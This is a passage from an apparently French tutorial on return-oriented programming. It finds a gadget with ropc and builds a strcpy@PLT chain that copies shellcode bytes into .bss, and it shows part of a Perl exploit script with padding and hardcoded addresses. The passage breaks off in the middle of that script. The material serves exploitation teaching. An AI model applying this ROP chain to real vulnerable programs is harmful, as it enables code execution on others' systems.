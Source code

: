 	:::console
	$ ropc -f ./a.out -g -F | grep pop
	0x080484ee  -> pop edi ; pop ebp ; ret ; 

Un appel à strcpy ressemblera à ça :

	:::console
	[ strcpy@PLT ]
	[ pop2; ret ]
	[Adresse .bss + offset]
	[Adresse opcode]

Nous avons tout ce qu'il nous faut pour réaliser notre exploit. Notre payload ressemblera à :

	:::console
	[ PADDING | strcpy@plt (saved-eip) | pop2; ret | Adresse .bss | Adresse opcode \x31 | strcpy@plt | pop2; ret | Adresse .bss + 1 | Adresse opcode \xc9 | ....... | Adresse .bss ]

L'exploit (en Perl) :

	:::perl
	#!/usr/bin/perl

	use strict;
	use warnings;

	my $payload = "A"x268;  # PADDING
	my $bss = 0x08049740;
	my $strcpy_plt = 0x080482f0;
	my $pop2_ret = 0x080484ee;

	# \x31
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss);
	$payload .= pack('L', 0x08048330);

	# \xc9
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+1);
	$payload .= pack('L', 0x08048398);

	# \xf7
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+2);
	$payload .= pack('L', 0x080484e6);

	# \xe1
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+3);
	$payload .= pack('L', 0x08048334);
